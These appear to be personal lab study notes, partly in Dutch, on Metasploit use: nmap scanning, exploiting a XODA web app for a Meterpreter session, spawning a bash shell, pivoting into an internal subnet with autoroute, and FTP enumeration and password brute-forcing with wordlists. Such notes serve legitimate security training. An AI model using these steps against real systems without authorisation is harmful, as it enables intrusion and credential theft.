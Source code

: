 
#### Port scanning & Enumeration with nmap 

- Command: nmap -Pn -sV -O ip
- output scan results into xml file format:  -oX \[name file] windows_server_2012 
- nmap -h to see other commands that can be used for output 

Importing scans into msfconsole  (start msfconsole
- command: service PostgreSQL start 
- check the files - command: db_import /root/ 
- import the file - command: db_import /root/filename
- confirm that it is important - command: hosts 
- print services for hosts that you imported - command: services 
- initiate nmap scan from within msfconsole and save results in database - 
	  - Create new workspace - command: workspace -a nmap_msf 
	  - command: db_nmap -Pn -sV -O ip 
	  - list out the hosts and services 


## Enumeration 


###### Port scanning / pivoting 

Auxiliary modules are used to perform functionality like scanning, discovery and fuzzing. We can use it to perform TCP and UDP port scanning as well as enumerating information from services FTP, SSH, HTTP 
	Auxiliary modules can be used during information gathering phase 
Waarom auxiliary modules gebruiken als je ook met nmap kunt scannen? Auxiliary modules zijn erg handig voor **post exploitation phase:**   wanneer je een target hebt geexploit kom je erachter dat deze target onderdeel is van groot netwerk dan heb je nog meer targets die je kunt exploiten through initial exploited server. De auxiliary modules zijn dan handig om verder het interne/private netwerk te scannen. Dit kan niet met nmap omdat je dan nmap moet importeren op geexploite target host of OS. 

![[Pasted image 20230720154107.png]]


- start the postgresql service so we can interact with metasploit database 
- start msfconsole 
- check the status of the database, command: db_status 
- set up workspace, command: workspace -a Port_scan 
- use the auxiliary tcp portscan 
- from the auxiliary module run  curl to download homepage of web application, command: curl ip 
	- search for exploit modules for xoda webapplication -> xoda_file_upload
		- set up rhosts and set targetui /  
		  (/ because the root of the webserver)
	- exploit will set up a meterpreter session 
	- sysinfo will tell us more about the target system 
	- now we want to do port scan on victim two but first we need to find out the private network ip address (subnet) that this victim system is part of so we can target another victim within the network
		- open up a shell session: span a bash session, command: /bin/bash -i
		  ![[Pasted image 20230721142859.png]]
		- ifconfig 
		- get out of bash: terminate shell 
		- back in meterpreter,  command: run autoroute -s ip
				   "run autoroute -s ip" is used to configure a route to a specific subnet over a Meterpreter session. De "autoroute" module in Metasploit wordt gebruikt om de routetabel van het gecompromitteerde systeem te manipuleren, zodat verkeer dat bestemd is voor een specifiek IP-subnet wordt omgeleid via het gecompromitteerde host. Deze techniek is handig wanneer je verkeer wilt omleiden via het gecompromitteerde systeem om toegang te krijgen tot andere interne netwerken.
		- put the meterpreter session in the background, command: background 
		- search portscan 
		- use the tcp portscan 
		- set rhost to the ip in eth1 (ip of the second system)
			because you already added the route we will run the portscan through the first victim. 
	This is how you get a pivot point 
	UDP module: 
	- back 
	- search udp_sweep 

	---- lab ---   
Commands
- ip addr  -  me: 192.70.225.2 and target: 192.70.225.3 
- sudo service postgresql start  && msfconsole -q
- workspace -a Port_scan_target
- search tcp portscan 
- run aux/scanner/portscan/tcp on target
- use exploit(unix/webapp/xoda_file_upload 
- sets targeturi / 
- sysinfo 
- shell
- /bin/bash -i 
- ifconfig
- exit 
- Add the route to metasploit's routing table, command: run autoroute -s 192.135.243.2 
- background
- search portscan 


### FTP Enumeration

Use: file sharing between server and clients, transferring files to directory or web server. FTP access is via username and password. We can use multiple auxiliary modules to enumerate information as well as brute-force attacks on targets running an FTP server. Improper configurated FTP server can allow anonymous logon.  

Commands enumerating ftp  192.104.50.2

1) FTP portscan and ftp version scan 
- service postgresql start 
- start up msfconsole 
- check if target system has ftp server running
	- create workspace, command: workspace -a ftp_enum 
	- search portscan -> use aux/scan/portscan/tcp 
	- when you have to many search results use, command: search type: auxiliary name: ftp 
	- use aux/scanner/ftp/ftp_version (this will give us version of ftp and the ftp banner which is usefull information because we can use it to identify vulnerabilities for that version. e.g. search proftpd)

2) ftp bruteforce 
- search for module: search aux ftp (search for aux/scanner/ftp/ftp_login)
- set the user file and pasword file:
	- User_FILE -> /usr/share/metasploit-framework/data/wordlists/common_users.txt 
	- PASS_FILE ->  /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
- when you have found a password, you can login within  metasploit session, command:  ftp target ip. When you get a service not available error it means that the bruteforce has overwhelmed the service and that there are processes in places for example ddos protection that can make the service unavailable. You have to wait a few minutes. 
- exit the msfconsole
	- command: ftp target 
	- give username and password 
	- ls 
	- get {file}
	- exit 
	- cat {file}
  
3) anonymous login (access remote and anonymously)
   - search type: aux name:ftp   (we are looking for aux/scanner/ftp/anonymous)
   




